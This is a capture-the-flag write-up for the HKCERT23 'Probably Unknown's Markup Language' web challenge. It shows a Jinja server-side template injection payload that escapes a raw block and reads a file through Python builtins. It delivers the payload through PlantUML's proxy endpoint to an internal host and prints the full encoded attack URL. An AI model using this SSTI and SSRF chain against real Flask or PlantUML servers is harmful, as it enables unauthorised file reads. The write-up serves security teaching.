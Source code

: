 ```yaml
---
author: Li Yan
pubDatetime: 2023-11-18T08:51:00Z
title: "HKCERT23: Probably Unknown's Markup Language"
postSlug: writeups-for-hkcert23-puml
featured: false
draft: false
tags:
  - ctf
  - ctf-web
  - writeups
  - hkcert
  - hkcert23
description: We all know that CS majors must know a long list of markup languages like HTML, XML, etc... How about IS majors? UML?
---
```


## Problem Content

We all know that CS majors must know a long list of markup languages like HTML, XML, etc...
How about IS majors? UML? Is UML even a markup language?

## Solution

First, take a quick view of `/docker-compose.yml`.

```yaml
services:
  plantuml:
    build: plantuml-server
    ports:
      - 8001:8080
    restart: unless-stopped
  puml.local:
    build: web
    restart: unless-stopped
```

It shows that the web service contains the flag can't be directly reached by user, but can be reached by the plantuml server on `puml.local:80`.

Consider the [PlantUML Documentation](https://plantuml.com/server) shows PlantUML server provides an API endpoint for a proxy service. 

In the service, PlantUML will visit the URL provided by the user, parse the PlantUML code such as `@startuml\n ... \n@enduml` in the response, and generate the Graph using the code.

Then look at `/web/server.py`.

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)
@app.route("/")
def index():
	return render_template_string("""{%% raw %%}

...

<body>
<div>
    <h1>PUML Demo</h1>
    <p><textarea>%(puml)s</textarea></p>
    <p><a href="https://plantuml.com/">More information...</a></p>

...

{%% endraw %%}""" % {"puml":request.args.get("puml")})

if __name__ == "__main__":
	app.run(host="0.0.0.0", port=80)
```

The server get an argument `puml` and directly put it to the page template, so we can use SSTI attack.

Though `{% raw %}` is used to prevent SSTI attack, we can simply bypass it.

Now the argument `puml` should be:

```python
{% endraw %}
@startuml
a:{{''.__class__.__mro__[1].__subclasses__()[100].__init__.__globals__.__builtins__['open']('/proof.sh').read()}}
@enduml
{% raw %}
```

Now we get the payload.

```
http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=http://puml.local/?puml=%250A%7B%2525%2520endraw%2520%2525%7D%250A@startuml%250Aa:%7B%7B%2527%2527.__class__.__mro__%5B1%5D.__subclasses__()[100].__init__.__globals__.__builtins__[%27open%27](%27/proof.sh%27).read()%7D%7D%250A@enduml%250A%7B%2525%2520raw%2520%2525%7D%250A
```

Visit the URL, and there is a flag given.

![flag](https://s2.loli.net/2023/11/18/qT2VJXFQkv5nOGB.png)
